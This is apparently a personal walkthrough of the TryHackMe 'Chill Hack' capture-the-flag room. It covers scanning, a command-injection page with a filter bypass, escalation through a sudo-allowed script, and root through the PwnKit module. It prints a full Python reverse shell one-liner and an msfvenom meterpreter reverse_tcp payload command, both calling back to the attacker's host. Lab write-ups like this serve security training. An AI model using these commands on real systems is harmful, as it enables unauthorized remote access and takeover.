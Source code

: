 ```yaml
---

title: Walkthrough - Chill Hack
published: true
---
```


Chill the Hack out of the Machine.

[https://tryhackme.com/room/chillhack](https://tryhackme.com/room/chillhack)

* * *

## Notes

- nmap scan

```shell
21/tcp open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rw-r--r--    1 1001     1001           90 Oct 03  2020 note.txt
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.2.127.225
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 2
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 09:f9:5d:b9:18:d0:b2:3a:82:2d:6e:76:8c:c2:01:44 (RSA)
|   256 1b:cf:3a:49:8b:1b:20:b0:2c:6a:a5:51:a8:8f:1e:62 (ECDSA)
|_  256 30:05:cc:52:c6:6f:65:04:86:0f:72:41:c8:a4:39:cf (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Game Info
|_http-server-header: Apache/2.4.29 (Ubuntu)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

- ftp allowed anonymous login and we can get a note.

```shell
─(0xskar㉿cocokali)-[~/Documents/TryHackMe/Chill-Hack]
└─$ cat note.txt          
Anurodh told me that there is some filtering on strings being put in the command -- Apaar
```

- gobuster scan we find ``/secret/``
- ``/secret/`` lets us execute commands on the machine
- but as the note in the FTP said, it is filtering some strings. maybe we can bypass this some way.

- ``uname -a`` ``Linux ubuntu 4.15.0-118-generic #119-Ubuntu SMP Tue Sep 8 12:30:01 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux``
- tried wget a php rev shell and it uploads but cant tell where...
- looks like we can use find so we can setup netcat and reverse shell by using ``find /usr/bin/python3 -exec {} -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.2.127.225",6669));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);' \;``

- upgrade shell ``python3 -c 'import pty;pty.spawn("/bin/bash")'``

- sudo -l give us the following:

```shell
$ sudo -l
Matching Defaults entries for www-data on ubuntu:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on ubuntu:
    (apaar : ALL) NOPASSWD: /home/apaar/.helpline.sh
```

- .helpline.sh

```sh
Welcome to helpdesk. Feel free to talk to anyone at any time!

!/bin/sh

Thank you for your precious time!
$ cat ./.helpline.sh
#!/bin/bash

echo
echo "Welcome to helpdesk. Feel free to talk to anyone at any time!"
echo

read -p "Enter the person whom you want to talk with: " person

read -p "Hello user! I am $person,  Please enter your message: " msg

$msg 2>/dev/null

echo "Thank you for your precious time!"
```

- so user apaar can run this script as sudo
- ``sudo -u apaar /home/apaar/.helpline.sh``
- then ``/bin/bash`` to open up a terminal as apaar

- generate ssh key and add it to the authorized key file in apaars .ssh to open up ssh connection for better terminal
- uname -a we have x86 linux so generate meterpreter.elf
- ``msfvenom -p linux/x86/meterpreter/reverse_tcp  LHOST=10.2.127.225 LPORT=5555 -f elf > meterpreter.elf`` and wget to target and open up ``msfconsole`` and multi-handler listener

* * * 

## What is the user flag?

- upgrade terminal and cat local.txt for user flag

* * * 

## What is the root flag?

- ``linux/local/cve_2021_4034_pwnkit_lpe_pkexec`` will give us root
- cat proof.txt in /root/

* * * 

